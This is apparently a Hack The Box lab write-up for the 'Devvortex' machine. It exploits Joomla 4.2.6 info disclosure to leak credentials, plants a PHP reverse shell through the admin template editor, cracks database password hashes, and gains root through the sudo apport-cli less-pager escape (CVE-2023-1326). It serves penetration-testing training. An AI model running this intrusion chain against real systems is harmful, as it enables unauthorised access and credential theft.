- Machine Name: **Devvortex**
- OS Type: Linux
- Difficulty: Easy

### Port Scanning - Service & Version Enumeration

```bash
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQC82vTuN1hMqiqUfN+Lwih4g8rSJjaMjDQdhfdT8vEQ67urtQIyPszlNtkCDn6MNcBfibD/7Zz4r8lr1iNe/Afk6LJqTt3OWewzS2a1TpCrEbvoileYAl/Feya5PfbZ8mv77+MWEA+kT0pAw1xW9bpkhYCGkJQm9OYdcsEEg1i+kQ/ng3+GaFrGJjxqYaW1LXyXN1f7j9xG2f27rKEZoRO/9HOH9Y+5ru184QQXjW/ir+lEJ7xTwQA5U1GOW1m/AgpHIfI5j9aDfT/r4QMe+au+2yPotnOGBBJBz3ef+fQzj/Cq7OGRR96ZBfJ3i00B/Waw/RI19qd7+ybNXF/gBzptEYXujySQZSu92Dwi23itxJBolE6hpQ2uYVA8VBlF0KXESt3ZJVWSAsU3oguNCXtY7krjqPe6BZRy+lrbeska1bIGPZrqLEgptpKhz14UaOcH9/vpMYFdSKr24aMXvZBDK1GJg50yihZx8I9I367z0my8E89+TnjGFY2QTzxmbmU=
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBH2y17GUe6keBxOcBGNkWsliFwTRwUtQB3NXEhTAFLziGDfCgBV7B9Hp6GQMPGQXqMk7nnveA8vUz0D7ug5n04A=
|   256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKfXa+OM5/utlol5mJajysEsV4zb/L0BJ1lKxMPadPvR
80/tcp open  http    syn-ack ttl 63 nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://devvortex.htb/
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Enumeration

### Port 80/HTTP

i’ll start my enumeration from HTTP let’s visit ip in web browser



we need to add the hostname to /etc/hosts file, and refresh the page


ok looks like the website of company

let’s check the web technologies using whatweb

```bash
whatweb http://devvortex.htb
```



let’s search for hidden files and directories using gobuster

```bash
gobuster dir -u http://devvortex.htb -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
```



nothing interesting, let’s check if any files are found

```bash
gobuster dir -u http://devvortex.htb -w /usr/share/seclists/Discovery/Web-Content/raft-medium-files.txt
```



as we see that nothing interesting found, now it’s only the static site my mind is now thinking about subdomain

i’ll use the wfuzz tool

```bash
wfuzz -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u http://devvortex.htb -H "Host: FUZZ.devvortex.htb"
```



let’s filter the output to get only valid subdomains we’ll exclude 154 characters using `--hh 154` 

```bash
wfuzz -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u http://devvortex.htb -H "Host: FUZZ.devvortex.htb" --hh 154
```



and here it is we found the dev subdomain let’s add `dev.devvortex.htb` in /etc/hosts file



let’s check the directories and files fuzzing

```bash
gobuster dir -u http://dev.devvortex.htb/ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
```



ok so there are so many directories /plugins, /api and /administrator looks interesting let’s open /administrator



i tried common credentials on the login page like - admin:admin, admin:devvortex, devvortex:devvortex but none of them are working

upon searching on google i found the path of the xml file in which the joomla version information is stored 

```
/administrator/manifests/files/joomla.xml
```

let’s open the file



we found the installed joomla version is 4.2.6 let’s search for any known exploit for it

https://www.exploit-db.com/exploits/51334 

looks like this is useful for us let’s use the exploit and see if it is vulnerable to Unauthenticated Info Disclousure

 let’s use searchsploit to copy the exploit to current working directory

```bash
searchsploit -m 51334
```



now the exploit is ruby so don’t get confused by the extension as it says py file, but for more clarity just rename the file 

```bash
mv 51334.py 51334.rb
```

install dependencies

```bash
gem install httpx docopt paint
```

and then run the exploit

```bash
ruby 51334.rb http://dev.devvortex.htb
```



great we found the credentials 

users:

- lewis
- logan paul (logan)

password:

- P4ntherg0t1n5r3c0n##

let’s try to login in joomla administrator panel as lewis using above credentials



now as per hacktricks article we can get RCE from joomla Administrator panel → https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-web/joomla.html#:~:text=RCE,php%3Fcmd%3Did

in side menu click on **System** and then under templates, select **Site Templates**



and if the Templates section is not visible to you go to Global Configuration Under setup menu



go to templates > enable Preview Module positions save and again disable it and then save and close

go to sites templates



click on template name and it will open another code editor



select index.php and add the php reverse shell code here but saving it we found we don’t have write permissions to this file

let’s just create new file



give the name to file `shell` and select file type `.php` and paste our php reverse shell in shell.php 

php reverse shell → https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/refs/heads/master/php-reverse-shell.php

> make sure to change the IP and port in shell.php
> 

start the listener on port you’ve specified in the shell.php

to execute the shell visit - [`http://dev.devvortex.htb/templates/cassiopeia/shell.php`](http://dev.devvortex.htb/templates/cassiopeia/shell.php) 



and we got the  shell!

let’s upgrade this shell to TTY shell using python

```bash
python3 -c 'import pty;pty.spawn("/bin/bash");'
```

we found that there is user logan on the system

as we discovered the database credentials and the user logan was present in the mysql database let’s connect to mysql  using leiws credentials

```bash
mysql -u lewis -p
```



after login we list the databases using `show databases` and then `use joomla` to select joomla database for run queries

then i ran the `show tables;`  to view the tables in the database i found interesting `sd4fg_users` which possibly contains the login information of the users

let’s use the select query to extract data from database

```bash
select * from sd4fg_users;
```



i just copied password and save it to file then use john to crack the hash

```bash
john logan.hash --wordlist=/usr/share/wordlists/rockyou.txt
```



let’s ssh as logan using password → `tequieromucho`

```bash
ssh logan@10.10.11.242
```



## Way to Root # [CVE-2023-1326 - LPE in apport-cli](https://github.com/diego-tella/CVE-2023-1326-PoC)

i always start my post enum with `sudo -l` command in linux



i didn’t found anything useful in GTFOBins but i found Local PrivEsc vulnerability **CVE-2023-1326** in apport-cli

Note: Vulnerability works only if user is in sudoers group and has permission to run apport-cli as sudo → https://github.com/diego-tella/CVE-2023-1326-PoC

what causes the Vulnerability?

→ the default pager in apport-cli is `less` so if user has access to run apport-cli as sudo it can escalate privilege by abusing less pager and specifying `!/bin/bash` 

now run the `ps aux` and note any process id i.e. 2002

run the apport-cli and specify the process id

```bash
sudo /usr/bin/apport-cli 2002
```

wait for 1-2 minutes and it will collect information from the process then select **View Report (V)**

when less pager appears run `!/bin/bash` 

